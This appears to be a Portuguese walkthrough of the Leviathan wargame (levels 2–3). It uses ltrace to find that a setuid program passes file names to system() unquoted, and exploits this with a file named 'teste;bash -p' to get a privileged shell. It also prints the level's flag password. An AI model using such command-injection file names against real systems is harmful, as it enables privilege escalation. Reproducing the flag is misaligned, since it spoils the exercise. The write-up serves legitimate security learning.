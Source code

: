 >leviathan2@leviathan:~$ ltrace ./printfile /tmp/teste

```
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/tmp/teste", 4)                                                   = 0
snprintf("/bin/cat /tmp/teste", 511, "/bin/cat %s", "/tmp/teste")         = 19
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
system("/bin/cat /tmp/teste"oi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
leviathan2@leviathan:~$  
```

ele pega o uid de quem está executanto, isso impede que eu leia arquivos que não sejam do meu usuario... porem...
Opa! ele chama /bin/cat e isso é maravilhoso! Porque ? 

Bem... o cat funciona de um jeito diferente ele permite ler dois arquivos de uma vez.

>leviathan2@leviathan:~$ touch "teste;bash -p"

>leviathan2@leviathan:~$ cd /tmp

>leviathan2@leviathan:/tmp$ /home/leviathan2/printfile "teste;bash -p"

e junto com o nosso programa permite que eu execute um bash como um usuario de permisão mais alta ;D

>leviathan3@leviathan:/tmp$   

>leviathan3@leviathan:/tmp$ cat /etc/leviathan_pass/leviathan3

**Flag**
>Ahdiemoo1j


### Leviathan3


>leviathan3@leviathan:~$ ls
```
level3
```
AAAAAAA mais um executavel!

>leviathan3@leviathan:~$ ./level3
```
Enter the password> sex
bzzzzzzzzap. WRONG
```

huuum... ltrace ?

>leviathan3@leviathan:~$ ltrace ./level3
```
__libc_start_main(0x8048618, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                = -1
printf("Enter the password> ")                                            = 20
fgets(Enter the password> sex
"sex\n", 256, 0xf7fc55a0)                                           = 0xffffd5a0
strcmp("sex\n", "snlprintf\n")                                            = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                                = 19
+++ exited (status 0) +++
```

